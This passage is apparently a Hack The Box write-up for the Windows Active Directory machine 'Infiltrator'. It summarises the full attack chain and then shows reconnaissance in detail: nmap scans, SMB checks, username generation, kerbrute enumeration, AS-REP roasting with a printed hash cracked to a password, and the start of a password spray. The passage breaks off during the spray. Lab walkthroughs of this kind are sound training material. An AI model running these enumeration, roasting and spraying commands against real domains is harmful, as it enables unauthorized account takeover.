

## Summary

The box starts with the need of the need of generating a `custom wordlist` using `Username Anarchy` based on the `users` which can be found on the `website` running on port `80/TCP`. Valid usernames can be verified by using `kerbrute` which leads to `ASREPRoasting` of the user `l.clark`. The user has `read permissions` on `IPC$`. Through `RID Brute Forcing` a more comprehensive list of available `usernames` and `groups` can be created. Credentials for the user `K.turner` can be found by checking the `user description` which come in handy later in the box. These steps are closing the part of `reconnaissance` and for the `foothold` it is necessary to dump the configuration of the `Active Directory` using `BloodHound`. This shows a clear `attack path` which includes using `Shadow Credentials` to add `d.anderson` to the group of `MARKETING DIGITAL` which members has the permission to `set a new password` for the user `E.rodriguez`. The user than needs to be added to the `CHIEFS MARKETING` group to make use of the `ForceChangePassword` permissions on `M.harris` to use the `CanPSRemote` permission on `DC01.INFILTRATOR.HTB` and to get a shell using `Evil-WinRM` and to grab the `user.txt`. As `M.harris` you start enumerating the box. There are two interesting folders in `C:\Program Files` called `Output Messenger` and `Output Messenger Server`. Furthermore there are several `local ports` assigned to the `application`. Forwarding those ports enables access to the `messenger application` using the `Windows client` for `full feature support`. At this point the previously found credentials of `K.turner` come into play. On his `My Wall` tab the `real password` of `M.harris` can be found. Switching to `M.harris` gives access the the `UserExplorer.exe` binary mentioned in the chat with `Admin`. By `reverse engineering` the binary the `hashed password` and `key` for the user `winrm_svc` can be found. After building a small `AES CBC decrypter` script the password for the user can be obtained. The `privilege escalation` to `winrm_svc` provides a `API key` for `lan_managment`. The chats between `winrm_svc` and `O.martinez` gives the hints that `O.martinez` noticed a strange behavior of the application and that he shared his `password` within the `Chiefs_Marketing_chat` group. By accessing the `API` using the `key` will result in access to the `chat` of the respective `chat group` which contains the `password` for `O.martinez`. To `escalate privileges` to `O.martinez` it is necessary to deal with the `client-side` part of the box and to abuse the `strange behavior` mentioned in the chat. To do so a malicious binary needs to be placed on the `local Windows machine` on a specific path like `C:\temp` and also on the `box` inside the `exact same directory`. Then a `new event` needs to be created in the context of `O.martinez` to `run` a `application` which can be selected only `locally`. After logging out and switching to `K.harris` the user `O.martinez` will come online and execute the binary. By checking the `Received Files` folder of `O.martinez` provides a `.pcapng` file. The `capture file` contains the password for `O.martinez` to use with the `Remote Desktop Protocol (RDP)` and also a `7-Zip` archive. The archive is `password protected`. The password can be cracked using `John the Ripper`. It contains a `.html` file with a `BitLocker Recovery Key`. Using the credentials to login via `RDP` makes it possible to `decrypt` a disk encrypted with `BitLocker` which contains another `7-Zip` archive but this time without password protection. The archive contains `backup credentials` which includes a `ntds.dit` and a `Registry dump` of `SYSTEM` and `SECURITY`. With those the `ntds.dit` can be converted into a readable `sqlite database`. The database contains a `password` and the `NT hash` for `lan_managment`. The user `LAN_MANAGEMENT@INFILTRATOR.HTB` has the `ReadGMSAPassword` permission on `INFILTRATOR_SVC$@INFILTRATOR.HTB`. Dumping the hash leads to `ESC4` within `Active Directory Certificate Services (ADCS)` and to `NT AUTHORITY\SYSTEM` privileges on the system. Time to grab the `root.txt` and to close the box.

## Table of Contents

- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
    - [Username Enumeration](#Username-Enumeration)
- [ASREPRoasting](#ASREPRoasting)
- [Password Spraying](#Password-Spraying)
- [RID Brute Forcing](#RID-Brute-Forcing)
    - [Enumerating User Descriptions](#Enumerating-User-Descriptions)
- [Active Directory Enumeration](#Active-Directory-Enumeration)
- [Password  Reuse](#Password-Reuse)
- [Foothold](#Foothold)
    - [Shadow Credentials](#Shadow-Credentials)
- [user.txt](#usertxt)
- [Persistence](#Persistence)
- [Enumeration](#Enumeration)
- [Read root.txt (Unintended)](#Read-roottxt-Unintended)
- [root.txt](#roottxt)
- [Output Messenger](#Output-Messenger)
    - [Port Forwarding](#Port-Forwarding)
    - [Access](#Access)
    - [Enumerating Output Messenger Chat Rooms](#Enumerating-Output-Messenger-Chat-Rooms)
- [Reverse Engineering UserExplorer.exe](#Reverse-Engineering-UserExplorerexe)
- [Privilege Escalation to winrm_svc](#Privilege-Escalation-to-winrm_svc)
    - [Password Decryption](#Password-Decryption)
    - [Spawning Reverse Shell as winrm_svc](#Spawning-Reverse-Shell-as-winrm_svc)
- [Pivoting (winrm_svc)](#Pivoting-winrm_svc)
- [API Enumeration](#API-Enumeration)
- [Privilege Escalation to O.martinez](#Privilege-Escalation-to-Omartinez)
- [Pivoting (O.martinez)](#Pivoting-Omartinez)
- [Analyzing PCAP File](#Analyzing-PCAP-File)
- [Cracking the Password of the 7z Archive](#Cracking-the-Password-of-the-7z-Archive)
- [BitLocker Recovery Key](#BitLocker-Recovery-Key)
- [Access to Backup Credentials](#Access-to-Backup-Credentials)
- [Decrypting SYSTEM / SECURITY](#Decrypting-SYSTEM-SECURITY)
- [Decrypting NTDS.DIT](#Decrypting-NTDSDIT)
- [Analysing Output of decrypted NTDS.DIT](#Analysing-Output-of-decrypted-NTDSDIT)
- [Reading GMSA Password of infiltrator_svc$](#Reading-GMSA-Password-of-infiltrator_svc)
- [Privilege Escalation to SYSTEM](#Privilege-Escalation-to-SYSTEM)
    - [Active Directory Certificate Services (ADCS)](#Active-Directory-Certificate-Services-ADCS)

## Reconnaissance

### Port Scanning

The box started with a lot of expected open ports for a `Windows` based box and especially a `Domain Controller` like `TCP/88`, `TCP/135`, `TCP/389`, `TCP/445`, `TCP/464`, `TCP/593`, `TCP/636`, `TCP/3268`, `TCP/3269`, `TCP/3389` and `TCP/5985`.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.223.154
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-31 21:03 CEST
Nmap scan report for 10.129.223.154
Host is up (0.018s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Infiltrator.htb
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-31 19:04:04Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-08-31T19:05:26+00:00; +1s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
|_ssl-date: 2024-08-31T19:05:26+00:00; +1s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-08-31T19:05:26+00:00; +1s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
|_ssl-date: 2024-08-31T19:05:26+00:00; +1s from scanner time.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc01.infiltrator.htb
| Not valid before: 2024-07-30T13:20:17
|_Not valid after:  2025-01-29T13:20:17
|_ssl-date: 2024-08-31T19:05:26+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: INFILTRATOR
|   NetBIOS_Domain_Name: INFILTRATOR
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: infiltrator.htb
|   DNS_Computer_Name: dc01.infiltrator.htb
|   DNS_Tree_Name: infiltrator.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2024-08-31T19:04:46+00:00
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-08-31T19:04:48
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.15 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- 10.129.223.154
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-31 21:06 CEST
Nmap scan report for infiltrator.htb (10.129.223.154)
Host is up (0.018s latency).
Not shown: 65511 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Infiltrator.htb
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-31 19:13:39Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-08-31T19:16:51+00:00; 0s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
|_ssl-date: 2024-08-31T19:16:51+00:00; +1s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
|_ssl-date: 2024-08-31T19:16:51+00:00; +1s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-08-31T19:16:51+00:00; +1s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-08-31T19:16:51+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=dc01.infiltrator.htb
| Not valid before: 2024-07-30T13:20:17
|_Not valid after:  2025-01-29T13:20:17
| rdp-ntlm-info: 
|   Target_Name: INFILTRATOR
|   NetBIOS_Domain_Name: INFILTRATOR
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: infiltrator.htb
|   DNS_Computer_Name: dc01.infiltrator.htb
|   DNS_Tree_Name: infiltrator.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2024-08-31T19:16:10+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
15220/tcp open  unknown
15230/tcp open  unknown
49666/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49693/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49727/tcp open  msrpc         Microsoft Windows RPC
49750/tcp open  msrpc         Microsoft Windows RPC
50603/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-08-31T19:16:11
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 642.73 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sU 10.129.223.154
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-31 21:20 CEST
Nmap scan report for infiltrator.htb (10.129.223.154)
Host is up (0.020s latency).
Not shown: 997 open|filtered udp ports (no-response)
PORT    STATE SERVICE      VERSION
53/udp  open  domain       Simple DNS Plus
88/udp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-08-31 19:20:40Z)
123/udp open  ntp          NTP v3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5083.63 seconds
```

### Enumeration of Port 80/TCP

Since we didn't find anything out of the ordinary, we started with `enumeration` of the `website` running on port `80/TCP`. The `app stack` didn't showed anything interesting but on the `website` it self we found a few `potential usernames` which we put together in a list.

- [http://10.129.223.154/](http://10.129.223.154/)

```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://10.129.223.154/
http://10.129.223.154/ [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@Infiltrator.htb], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.223.154], JQuery[2.1.0], Lightbox, Microsoft-IIS[10.0], Script, Title[Infiltrator.htb]
```


### Enumeration of Port 445/TCP

As usual we performed a quick check on port `445/TCP` but it was a dead end. At least for now.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.223.154 -u '' -p '' --shares
SMB         10.129.223.154  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.223.154  445    DC01             [+] infiltrator.htb\: 
SMB         10.129.223.154  445    DC01             [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.223.154 -u ' ' -p ' ' --shares
SMB         10.129.223.154  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\ :  STATUS_LOGON_FAILURE
```

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.223.154 -u 'guest' -p '' --shares
SMB         10.129.223.154  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\guest: STATUS_ACCOUNT_DISABLED
```

### Username Enumeration

Out of the raw list of `usernames` we generated the most common username variants using `Username Anarchy`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ cat usernames_raw.txt 
david anderson
olivia martinez
kevin turner
amanda walker
marcus harris
lauren clark
ethan rodriguez
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ ~/opt/wordlists/username-anarchy/username-anarchy -f first,first.last,last,flast,f.last -i usernames_raw.txt
david
david.anderson
d.anderson
danderson
anderson
olivia
olivia.martinez
o.martinez
omartinez
martinez
kevin
kevin.turner
k.turner
kturner
turner
amanda
amanda.walker
a.walker
awalker
walker
marcus
marcus.harris
m.harris
mharris
harris
lauren
lauren.clark
l.clark
lclark
clark
ethan
ethan.rodriguez
e.rodriguez
erodriguez
rodriguez
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ cat usernames.txt 
david
david.anderson
d.anderson
danderson
anderson
olivia
olivia.martinez
o.martinez
omartinez
martinez
kevin
kevin.turner
k.turner
kturner
turner
amanda
amanda.walker
a.walker
awalker
walker
marcus
marcus.harris
m.harris
mharris
harris
lauren
lauren.clark
l.clark
lclark
clark
ethan
ethan.rodriguez
e.rodriguez
erodriguez
rodriguez
```

As next step we looked for `valid usernames` using `kerbrute`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ ~/opt/05_password_attacks/kerbrute/kerbrute userenum -d infiltrator.htb --dc dc01.infiltrator.htb usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/31/24 - Ronnie Flathers @ropnop

2024/08/31 21:58:23 >  Using KDC(s):
2024/08/31 21:58:23 >   dc01.infiltrator.htb:88

2024/08/31 21:58:23 >  [+] VALID USERNAME:       o.martinez@infiltrator.htb
2024/08/31 21:58:23 >  [+] VALID USERNAME:       d.anderson@infiltrator.htb
2024/08/31 21:58:23 >  [+] VALID USERNAME:       k.turner@infiltrator.htb
2024/08/31 21:58:23 >  [+] VALID USERNAME:       a.walker@infiltrator.htb
2024/08/31 21:58:23 >  [+] VALID USERNAME:       m.harris@infiltrator.htb
2024/08/31 21:58:23 >  [+] VALID USERNAME:       e.rodriguez@infiltrator.htb
2024/08/31 21:58:23 >  [+] VALID USERNAME:       l.clark@infiltrator.htb
2024/08/31 21:58:23 >  Done! Tested 35 usernames (7 valid) in 0.097 seconds
```

A quick spray against port `445/TCP` to look for some additional information like disabled accounts and so on.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ netexec smb 10.129.223.154 -u usernames.txt -p '' --shares --local-auth  
SMB         10.129.223.154  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:DC01) (signing:True) (SMBv1:False)
SMB         10.129.223.154  445    DC01             [-] DC01\david: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\david.anderson: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\danderson: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\anderson: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\olivia: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\olivia.martinez: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\omartinez: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\martinez: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\kevin: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\kevin.turner: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\kturner: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\turner: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\amanda: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\amanda.walker: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\awalker: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\walker: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\marcus: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\marcus.harris: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\mharris: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\harris: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\lauren: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\lauren.clark: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\lclark: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\clark: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\ethan: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\ethan.rodriguez: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\erodriguez: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\rodriguez: STATUS_LOGON_FAILURE
```

## ASREPRoasting

Our next logical step was to see if some of the accounts are potentially vulnerable to `ASREPRoasting` and indeed we found that the account of `l.clark` was vulnerable to it.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ impacket-GetNPUsers infiltrator.htb/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User d.anderson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User o.martinez doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User k.turner doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User a.walker doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User m.harris doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$l.clark@INFILTRATOR.HTB:5720b3adf3c1109d57fe9886dab9d71d$dd6547b5e9d492d740dfb7f910dff7718d9f7e5f1021714d8216b97dfa55686c65e797204ca7abe005d7b7841c05e0d3dab8866eafcd63d7acb22c98955fa35cb8fbf0da656c8400c9b3600753c5ced7c77237af50b409e8080b0ab59209a534506021a4946d017a26d5a4f424730da7ed7f324866541d3c28bca83eeede5bb65b25076b7f2eebb26c0ad8c13b9577c43a00c00fe24093b584ba1c0c55357f2334e03f3b436cb08ed589f7f5fe9037e8f12720e1ac3c2c826c8459db35250b56875043a8cec7f02875aef4903628efbc5050cfd68b4bb8a3d7157ea122757726580a73b9efd33f0ddbd960d94f849dc98ad8
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User e.rodriguez doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

We grabbed his `hash` and `cracked` it using `John the Ripper`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ cat hash_l.clark 
$krb5asrep$23$l.clark@INFILTRATOR.HTB:5720b3adf3c1109d57fe9886dab9d71d$dd6547b5e9d492d740dfb7f910dff7718d9f7e5f1021714d8216b97dfa55686c65e797204ca7abe005d7b7841c05e0d3dab8866eafcd63d7acb22c98955fa35cb8fbf0da656c8400c9b3600753c5ced7c77237af50b409e8080b0ab59209a534506021a4946d017a26d5a4f424730da7ed7f324866541d3c28bca83eeede5bb65b25076b7f2eebb26c0ad8c13b9577c43a00c00fe24093b584ba1c0c55357f2334e03f3b436cb08ed589f7f5fe9037e8f12720e1ac3c2c826c8459db35250b56875043a8cec7f02875aef4903628efbc5050cfd68b4bb8a3d7157ea122757726580a73b9efd33f0ddbd960d94f849dc98ad8
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ sudo john hash_l.clark --wordlist=/usr/share/wordlists/rockyou.txt 
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
WAT?watismypass! ($krb5asrep$23$l.clark@INFILTRATOR.HTB)     
1g 0:00:00:11 DONE (2024-08-31 22:03) 0.08920g/s 937037p/s 937037c/s 937037C/s WEBB29..WASHIDA
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| Username | Password         |
| -------- | ---------------- |
| l.clark  | WAT?watismypass! |

## Password Spraying

With the newly found `password` we `password sprayed` against port `445/TCP` to see if we could access any interesting shares.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ netexec smb 10.129.223.154 -u usernames.txt -p passwords.txt --shares 
SMB         10.129.223.154  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\david:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\david.anderson:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\d.anderson:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION 
